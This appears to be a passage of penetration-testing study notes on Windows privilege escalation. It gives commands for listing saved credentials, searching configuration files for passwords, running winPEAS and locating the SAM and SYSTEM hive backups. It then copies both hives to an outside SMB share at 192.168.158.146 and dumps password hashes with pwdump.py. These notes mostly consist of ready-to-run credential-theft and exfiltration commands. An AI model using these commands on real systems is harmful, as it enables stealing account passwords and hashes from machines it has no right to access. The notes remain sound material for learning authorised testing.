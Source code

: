 ```cmd 
 savecred.bat
 cmdkey /list
```

### Configuration files

Some admins will leave config files on the system with passwords in them. eg Unattend.xml file

Recursively search for files in the current directory with
“pass” in the name, or ending in “.config”:

```cmd
 dir /s *pass* == *.config
```

Recursively search for files in the current directory that
contain the word “password” and also end in either .xml, .ini,
or .txt:
```cmd
 findstr /si password *.xml *.ini *.txt
```

Using win peas

```cmd
 .\winPEASany.exe quiet cmd searchfast filesinfo

```
### SAM

Windows stores password hashes in the Security Account Manager(SAM)
The hashes are encrypted with a key which can be found in a file called *System* (kind of a db)

SAM and SYSTEM files are located in the following location. They are locked when windows is running

***
     C:\Windows\System32\config 
***

Backup of these files. 

***
    C:\Windows\repair\SAM
    C:\Windows\repair\SYSTEM
***


```cmd
 copy C:\Windows\Repair\SYSTEM \\192.168.158.146\tools 
 copy C:\Windows\Repair\SAM \\192.168.158.146\tools 

```

Dumping Hashes using creddump7 suite

```zsh
 python2 pwdump.py /root/tools/SYSTEM /root/tools/SAM
```
